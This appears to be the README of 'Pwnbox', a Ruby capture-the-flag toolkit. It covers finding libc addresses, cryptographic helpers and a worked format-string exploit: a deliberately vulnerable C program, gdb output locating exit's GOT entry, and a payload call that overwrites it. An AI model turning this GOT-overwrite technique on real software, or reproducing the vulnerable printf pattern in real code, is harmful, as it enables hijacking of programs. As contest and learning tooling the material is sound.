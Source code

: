# Pwnbox

[![Build Status](https://travis-ci.org/jakkdu/pwnbox.svg?branch=master)](https://travis-ci.org/jakkdu/pwnbox)

Capture-The-Flag(CTF) toolkit

## Installation

Add this line to your application's Gemfile:

    gem 'pwnbox'

And then execute:

    $ bundle

Or install it yourself as:

    $ gem install pwnbox

## Usage

### Find a libc.so

```ruby
libc = Pwnbox::Pwnable.find_libc(['system', 0x40100])
puts "Path : #{libc.path}"
puts "Read address : 0x%08X" % libc.find_address_by_name('read')
```

### Format string bug

An example is following.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
int main(int argc, char** argv)
{
    char buf[0x100];
    strncpy(buf, argv[1], 40);
    printf(buf);
    exit(-1);
}
```

Get exploit parameters using gdb.

```shell
=> 0x080484c7 <+74>:    call   0x8048330 <printf@plt>
(gdb) x/i 0x8048350
   0x8048350 <exit@plt>:        jmp    *0x804a014
(gdb) x/x $esp
0xbffff2f0:     0xbffff30c
```

exit GOT : 0x804a014, buffer : 0xbffff30c, esp : 0xbffff2e0

```ruby
Pwnbox::Pwnable.fsb(0x804a014, 0xbffff30c - 0xbffff2f0, [0xdeadbeef].pack('<I'))
```

### Cryptography
```ruby
# gives (gcd, x, y) where ax + by = gcd
Pwnbox::Crypto::exteded_gcd(a, b)

# gives root of ax = b mod m
Pwnbox::Crypto::solve_linear_congruence_equation(a, b, m)

# gives a modular inverse of a mod m
Pwnbox::Crypto::mod_inverse(a, m)

# gives root of x^2 = a mod p
Pwnbox::Crypto::mod_prime_sqrt(a, p)

# gives root of x^2 = a mod (p * q)
Pwnbox::Crypto::mod_composite_sqrt(a, p, q)

# gives the result of chinese remainder theorem
Pwnbox::Crypto::chinese_remainder_theorem(remainders, mods)
```
